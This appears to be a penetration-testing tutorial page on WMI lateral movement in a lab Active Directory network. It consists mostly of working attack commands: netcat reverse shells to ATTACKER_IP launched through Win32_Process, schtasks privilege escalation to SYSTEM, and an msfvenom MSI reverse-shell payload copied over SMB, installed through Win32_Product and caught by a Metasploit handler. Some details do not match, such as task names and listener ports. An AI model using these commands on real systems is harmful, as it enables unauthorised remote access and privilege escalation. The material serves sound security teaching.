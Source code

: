 # Example

Refer to the section labelled ["Example scenario"](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/lateral-movement-and-pivoting/example-scenario) to understand the setup we will be working with. The following will illustrate an example of how we can use WMI to move laterally in a network.

### (1) Using `Win_32_Process`

It appears that this method does not directly provide us with a shell session as the privileged `nt authority\system` user immediately. We need to perform certain privilege escalation steps (with the administrator credentials) to gain a privileged shell.

For the sake of simplicity, we will assume that the machine has the netcat binary installed in `C:\tools\nc64.exe`.

#### 1.  Start a listener on the attacker machine

```sh
$ nc -lvnp 9999
```

> Take note of the port number used in this step

#### 2. Create a new WMI session against our target machine (`iis.test.com`) and invoke the Create method from the `Win32_Process` class:

> This step should be performed from an "intermediary" machine in the network that we have compromised (`jmp.test.com`)

a. Create WMI session:

{% code overflow="wrap" %}
```powershell
PS C:\> $username = 'admin';
PS C:\> $password = 'pass';
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

PS C:\> $Opt = New-CimSessionOption -Protocol Dcom
PS C:\> $Session = New-CimSession -ComputerName iis.test.com -Credential $credential -SessionOption $Opt -ErrorAction Stop 
```
{% endcode %}

b. Invoke `Win32_Process` Create method:

{% code overflow="wrap" %}
```powershell
PS> $Command = "c:\tools\nc64.exe ATTACKER_IP 9999 -e cmd.exe"

PS> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{ 
CommandLine = $Command 
}
```
{% endcode %}

Now, we should retrieve a remote shell on the listener we established previously:

* Note that we have obtained a shell as the admin user, but not the highest privileged system user yet

```
C:\> whoami
admin
```

#### 3. Escalate privilege to the highest privileged system user (`SYSTEM`):

#### 3.1 Using `schtasks`

a. Start a listener on the attacker machine (on a separate port from the previously used one):

{% code overflow="wrap" %}
```sh
$ nc -lvnp 6666
```
{% endcode %}

b. Create and start a new task as the `SYSTEM` user:

{% code overflow="wrap" %}
```powershell
C:\> schtasks /ru "SYSTEM" /create /tn "rooty" /tr "c:\tools\nc64.exe ATTACKER_IP 6666" /ru "SYSTEM" flag
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
C:\> schtasks /tn "privsec" /run
```
{% endcode %}

Now, we should receive a shell as the `SYSTEM` user:

```powershell
C:\> whoami
nt authority\system
```

#### 3.2 Using `sc.exe`&#x20;

...



### (2) Using `.msi` packages and `Win32_Product`

#### 1. Craft the reverse shell payload (`msfvenom`) in the `.msi` format

{% code title="Attacker" overflow="wrap" %}
```sh
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=8888 -f msi -o rvshell.msi
```
{% endcode %}

> Take note of the value passed to the `LPORT` option

#### 2. Copy the payload over to the target machine using _SMB_ (or any other methods available):

{% code title="Attacker" overflow="wrap" %}
```sh
# lets first identify the name of the admin share
$ smbclient -U admin -W test.com -L '//iis.test.com'
Sharename       Type      Comment
---------       ----      -------
 ADMIN$         Disk      Remote Admin
...


$ smbclient -c "put <msi_name>.msi -U admin -W test.com '//iis.test.com/ADMIN$'
```
{% endcode %}

> Replace `service_exec_name>.exe` with the name of the `.msi` file created with `msfvenom`

_Start the msfconsole listener (used to catch the shell in one of the later step):_

{% code title="Attacker" overflow="wrap" %}
```sh
$ msfconsole
msf6> use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST <local_addr>
msf6 exploit(multi/handler) > set LPORT 9999
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > run
```
{% endcode %}

#### 3. Create a new WMI session against our target machine (`iis.test.com`) and invoke the Install method from the `Win32_Product` class:

> This step should be performed from an "intermediary" machine in the network that we have compromised (`jmp.test.com`)

a. Create WMI session

Follow the steps as shown in "part (1) Using `Win32_Process` " above.

b. Invoke `Win32_Product` Install method:

{% code overflow="wrap" %}
```powershell
PS> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{
PackageLocation = "C:\Windows\<installed_msi>.msi";
Options = "";
AllUsers = $false
}
```
{% endcode %}

After executing the above commands, we should receive a connection on the `msfconsole` listener we have established earlier:

{% code title="msfconsole" overflow="wrap" %}
```powershell
C:\> whoami
nt authority\system
```
{% endcode %}

